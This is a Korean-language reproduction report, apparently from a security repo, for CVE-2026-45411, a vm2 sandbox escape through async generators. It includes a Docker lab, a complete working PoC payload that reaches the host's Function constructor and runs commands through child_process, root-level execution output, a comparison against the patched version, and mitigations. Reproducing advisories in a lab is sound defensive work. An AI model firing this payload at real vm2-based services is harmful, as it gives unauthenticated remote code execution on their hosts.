


# CVE-2026-45411 Report — vm2 Async Generator Sandbox Escape (RCE)

## 1. 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE ID | [CVE-2026-45411](https://nvd.nist.gov/vuln/detail/CVE-2026-45411) |
| 컴포넌트 | [vm2](https://www.npmjs.com/package/vm2) (Node.js용 오픈소스 VM/샌드박스 라이브러리) |
| 영향 버전 | `vm2 <= 3.11.2` |
| 패치 버전 | `vm2 >= 3.11.3` |
| GHSA | [GHSA-248r-7h7q-cr24](https://github.com/advisories/GHSA-248r-7h7q-cr24) — "vm2 Has a Sandbox Breakout Using Async Generator" |
| CWE | CWE-668 (Exposure of Resource to Wrong Sphere) |
| CVSS 3.1 | **9.8 (Critical)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| 인증 필요 여부 | 불필요 (샌드박스에 실행시킬 JS 코드만 전달할 수 있으면 됨) |

vm2는 신뢰할 수 없는 JavaScript 코드를 격리된 컨텍스트에서 실행하기 위해 널리 쓰이던 Node.js 샌드박스 라이브러리다. 이 취약점은 `async function*`(비동기 제너레이터)가 `yield*`로 "내부에 `return` 메서드가 없는" 이터레이터에 위임(delegate)하고 있을 때, 바깥 제너레이터의 `.return(thenable)`을 호출하면 V8 엔진이 해당 `thenable`을 `Await()` 한다는 스펙 동작을 악용한다.

이 `Await()` 과정에서 `thenable.then()` 콜백이 동기적으로 예외를 던지면, 그 예외는 **V8 내부의 `PromiseResolveThenableJob`이 C++ 레벨에서 캐치**하여 `yield*`의 다음 값으로 되돌려준다. 이 경로는 사용자 코드의 `try/catch` 문도, `Promise.prototype.then`도 거치지 않기 때문에 vm2가 마련해둔 두 가지 방어(트랜스포머의 `catch` 계측, 전역 `Promise.prototype.then` sanitizer)를 모두 우회한다.

여기에 재귀 깊이 이분탐색(정확히는, 아래에서 설명하듯 비단조적 구간이라 선형 스캔) 기법을 결합하면, V8이 **호스트(샌드박스 밖) 컨텍스트**에서 `RangeError`(스택 오버플로) 객체를 생성하는 정확한 재귀 깊이를 찾아낼 수 있다. 이렇게 얻은 호스트 realm의 `Error` 객체는 `e.constructor.constructor`를 통해 호스트의 진짜 `Function` 생성자에 접근할 수 있게 해주고, 이를 이용해 `process.mainModule.require('child_process')`로 임의 명령을 실행할 수 있다 — 즉, **샌드박스 완전 탈출 + 원격 코드 실행(RCE)**.

패치(`3.11.3`)는 `%AsyncGeneratorPrototype%.next/.return/.throw`를 래핑하여, 이터레이터 결과 값과 `.return()`/`.next()`/`.throw()`에 전달되는 thenable 인자를 모두 `handleException`을 통해 살균(sanitize)하는 방식으로 이 우회 경로를 차단한다.

## 2. 환경 구성

실제 서비스에서 vm2가 쓰이는 전형적인 시나리오(온라인 코드 실행기, 플러그인/챗봇 스크립트 엔진, 워크플로 자동화 등)를 흉내낸 최소 Express API 서버를 구성했다.

```
CVE-2026-45411/
├── Dockerfile          # node:20-bullseye-slim 기반, vm2 3.11.2 고정 설치
├── docker-compose.yml  # 단일 서비스 (외부 이미지 의존 없음, 로컬 빌드만 사용)
├── package.json        # express + vm2@3.11.2 (취약 버전 고정)
├── server.js           # POST /run { code } 를 vm2 NodeVM으로 실행하는 API
├── poc.js              # 공격자 관점 PoC (Node 내장 fetch만 사용, 의존성 0개)
└── .dockerignore
```

- `server.js`: `POST /run`에 `{"code": "..."}`을 보내면 vm2의 `NodeVM`(`sandbox: {}`, `require: false`)으로 실행하고 결과를 JSON으로 돌려준다. 흔한 "사용자 스크립트를 안전하게 실행해준다"는 신뢰 가정을 그대로 재현한 것이다.
- `docker-compose.yml`은 `build: .` 로 로컬 `Dockerfile`만 사용하며, 외부의 사전 빌드된(제어 불가능한) 취약 이미지에 의존하지 않는다. `node:20-bullseye-slim`은 공식 Node.js 베이스 이미지일 뿐, 애플리케이션 자체는 이 레포에 포함된 코드로 직접 빌드된다.
- `package.json`에 `"vm2": "3.11.2"`로 취약 버전을 고정했다 (패치는 `3.11.3`).

## 3. 취약 조건

- vm2 버전이 `3.11.2` 이하여야 한다 (`3.11.3`부터 패치됨).
- 공격자가 vm2로 실행되는 임의의 JavaScript "사용자 코드"를 주입할 수 있는 채널이 있어야 한다 (예: 코드 실행 API, 챗봇 플러그인 스크립트, 웹훅 핸들러 등). 별도 인증이나 vm2 API에 대한 직접 접근은 필요 없다 — 샌드박스 "안"에서 실행되는 코드 한 줄이면 충분하다.
- `async function*` / `yield*` / `Symbol.asyncIterator` 등 ES2018+ 문법이 sandbox 내에서 차단되지 않아야 한다 (vm2는 기본적으로 이를 막지 않는다).

## 4. 재현 절차

### 4.1 환경 기동

```bash
git clone <this-repo>
cd vm2/CVE-2026-45411
docker compose up -d --build
```

정상 기동 확인:

```bash
curl -s http://localhost:3000/
# vm2 sandboxed script execution API (CVE-2026-45411 demo)
# POST /run { "code": "module.exports = 1 + 1;" }
```

설치된 vm2가 실제로 취약 버전인지 확인:

```bash
docker compose exec vm2-app node -e "console.log(require('vm2/package.json').version)"
# 3.11.2
```

### 4.2 정상 동작 확인 (샌드박스가 격리되어 있음을 먼저 보여줌)

```bash
curl -s -X POST http://localhost:3000/run \
  -H 'content-type: application/json' \
  -d '{"code":"module.exports = 1 + 1;"}'
# {"ok":true,"result":2,"logs":[]}

curl -s -X POST http://localhost:3000/run \
  -H 'content-type: application/json' \
  -d '{"code":"module.exports = process.mainModule;"}'
# {"ok":true,"logs":[]}   <- mainModule은 undefined, 호스트 프로세스에 접근 불가
```

### 4.3 PoC 실행

`poc.js`는 Node.js 내장 `fetch`만 사용하며 별도 `npm install` 없이 바로 실행된다. 호스트에 Node.js 18+ 가 있다면:

```bash
node poc.js http://localhost:3000/run "id"
```

호스트에 Node.js가 없다면, Docker로 대신 실행:

```bash
docker run --rm --network container:cve-2026-45411-vm2 \
  -v "$(pwd)":/poc -w /poc node:20-bullseye-slim \
  node poc.js http://localhost:3000/run "id"
```

### 4.4 패치 버전과의 비교 (네거티브 컨트롤)

`package.json`의 `vm2` 버전을 `3.11.3`으로 바꿔 재빌드하면 동일한 PoC가 더 이상 동작하지 않는 것을 확인할 수 있다 (아래 5장 실행 결과 참고).

## 5. PoC 코드

`poc.js`의 핵심 페이로드 (전체 파일은 [poc.js](poc.js) 참고). 이 문자열이 공격 대상 서버의 `/run` 엔드포인트로 "사용자 코드"로서 전송되고, vm2의 `NodeVM` 안에서 실행된다 — 공격자 쪽에서 vm2 API를 직접 호출하지 않는다.

```javascript
module.exports = (async () => {
  class E extends Error {}
  function so(d) {
    if (d > 0) so(d - 1);
    const e = new E();
    e.stack;
    throw e;
  }

  // next만 있고 return이 없는(그러나 throw는 있는) 가짜 비동기 이터레이터에 yield* 위임
  async function* helper() {
    yield* {
      [Symbol.asyncIterator]: () => ({
        next: (v) => ({ value: v, done: false }),
        throw: (v) => ({ value: v, done: false }),
      }),
    };
  }

  // 바깥 제너레이터의 .return(thenable) 호출 -> V8이 thenable을 Await().
  // then() 콜백 안에서 던진 예외는 사용자 catch/Promise.then을 거치지 않고
  // V8 내부(PromiseResolveThenableJob)에서 캐치되어 yield* 결과값으로 전달된다.
  async function doCatch(f) {
    const i = helper();
    await i.next();
    const v = await i.return({
      then(resolve) { f(); resolve(); },
    });
    return v.value;
  }

  // V8이 "자기 자신의 내부 Promise 처리 코드" 안에서 스택 오버플로를 일으키는
  // 정확한 재귀 깊이를 선형 스캔으로 탐색한다. 이 지점에서 생성된 RangeError는
  // 샌드박스가 아닌 호스트 realm 소속이 된다 (e instanceof RangeError === false).
  let hostErr = null;
  for (let depth = 1000; depth <= 20000; depth++) {
    let e;
    try {
      e = await doCatch(() => so(depth));
    } catch (probeErr) {
      continue;
    }
    if (e.name === 'RangeError' && !(e instanceof RangeError)) {
      hostErr = e;
      break;
    }
  }
  if (!hostErr) throw new Error('host RangeError not found');

  // 호스트 realm의 Error → e.constructor.constructor는 호스트의 진짜 Function.
  const hostProcess = hostErr.constructor.constructor('return process')();
  const cp = hostProcess.mainModule.require('child_process');
  return { hostNodeVersion: hostProcess.version, commandOutput: cp.execSync('id').toString() };
})();
```

> **참고**: GitHub 공식 보안 권고([GHSA-248r-7h7q-cr24](https://github.com/advisories/GHSA-248r-7h7q-cr24))의 원본 PoC는 `next`만 제공하는 이터레이터와 순수 이분탐색을 사용한다. 실제로 재현해보면 "샌드박스 realm의 RangeError"와 "호스트 realm의 RangeError" 사이 전환 구간이 **비단조적**이라(재귀 깊이를 늘려도 `커스텀 에러 → 샌드박스 RangeError → 호스트 RangeError → 샌드박스 RangeError → 커스텀 에러 → ...` 순서로 왔다갔다 함) 순수 이분탐색은 이 좁은 구간을 건너뛰기 쉽다. 이 PoC는 vm2 자체의 회귀 테스트(`test/ghsa/GHSA-248r-7h7q-cr24/repro.js`)를 참고해 이터레이터에 `throw` 메서드를 추가하고, 이분탐색 대신 **선형 스캔**으로 교체하여 재현 안정성을 높였다.

## 6. 실행 결과

### 6.1 취약 버전(vm2 3.11.2) — 공격 성공

```
$ docker compose exec vm2-app node -e "console.log(require('vm2/package.json').version)"
3.11.2

$ curl -s -X POST http://localhost:3000/run -H 'content-type: application/json' \
    -d '{"code":"module.exports = 1 + 1;"}'
{"ok":true,"result":2,"logs":[]}

$ curl -s -X POST http://localhost:3000/run -H 'content-type: application/json' \
    -d '{"code":"module.exports = process.mainModule;"}'
{"ok":true,"logs":[]}

$ node poc.js http://localhost:3000/run "id"
[*] target endpoint : http://localhost:3000/run
[*] host command     : id
[*] sending sandbox-escape payload...

[+] sandbox escape succeeded
[+] host Node.js version: v20.20.2
[+] output of `id` on the HOST (outside the sandbox):

uid=0(root) gid=0(root) groups=0(root)
```



`id` 명령은 샌드박스 안에서는 존재하지 않는 명령이며, `child_process.execSync`도 vm2가 샌드박스에 노출하지 않는 API다. 응답으로 컨테이너 안 호스트 프로세스의 `uid=0(root)` 결과가 그대로 돌아온다는 것은 vm2 샌드박스를 완전히 벗어나 호스트(컨테이너) 프로세스 컨텍스트에서 임의 명령을 실행했다는 뜻이다.

### 6.2 패치 버전(vm2 3.11.3) — 공격 실패 (네거티브 컨트롤)

`package.json`의 `vm2` 버전만 `3.11.3`으로 바꿔 동일한 `poc.js`를 그대로 재실행:

```
$ node poc.js http://localhost:3000/run "id"
[*] target endpoint : http://localhost:3000/run
[*] host command     : id
[*] sending sandbox-escape payload...

[-] request failed: exploit failed: could not capture a host-realm RangeError
```



`3.11.2`에서는 성공하고 `3.11.3`에서는 실패하는 결과가 재현되어, 이 취약점이 정확히 vm2 자체의 패치(async generator `next/return/throw` 살균 래핑)로 막힌다는 것을 확인했다.

## 7. 대응 방안

1. **패치 적용 (최우선)**: `vm2`를 `3.11.3` 이상으로 업그레이드한다.
   ```bash
   npm install vm2@^3.11.3
   ```
2. **근본적 마이그레이션 권장**: vm2는 과거에도 여러 차례 유사한 구조적 샌드박스 탈출 취약점(WASM/custom-inspect, Promise species 조작 등)이 발견된 이력이 있다. V8 기반 in-process 샌드박스는 구조적으로 이런 부류의 우회에 취약하므로, 신뢰 경계가 중요한 서비스라면 별도 프로세스/컨테이너 격리(`isolated-vm`, gVisor/Firecracker 기반 워커, 별도 컨테이너/VM에서 실행 후 결과만 IPC로 전달)로의 전환을 검토한다.
3. **심층 방어(defense in depth)**:
   - 샌드박스 실행 프로세스를 최소 권한 사용자(non-root)로 구동하고, `seccomp`/`AppArmor`/`gVisor` 등으로 시스템 콜을 제한한다.
   - 컨테이너에 `--cap-drop=ALL`, 읽기 전용 루트 파일시스템, 아웃바운드 네트워크 차단 등을 적용해 탈출 성공 시에도 피해 반경을 제한한다.
   - 샌드박스에서 실행되는 코드 실행 시간과 메모리/CPU를 cgroup 등으로 제한한다.
4. **런타임 탐지**: 샌드박스 프로세스에서 `child_process`, `fs`, 네트워크 syscall이 발생하면 이상 징후로 보고 알림을 발생시키는 모니터링(예: Falco, auditd)을 구성한다.

## 참고 자료

- [NVD - CVE-2026-45411](https://nvd.nist.gov/vuln/detail/CVE-2026-45411)
- [GHSA-248r-7h7q-cr24 — vm2 Has a Sandbox Breakout Using Async Generator](https://github.com/advisories/GHSA-248r-7h7q-cr24)
- [vm2 v3.11.3 릴리스 (패치 커밋)](https://github.com/patriksimek/vm2/releases/tag/v3.11.3)
- [vm2 on npm](https://www.npmjs.com/package/vm2)
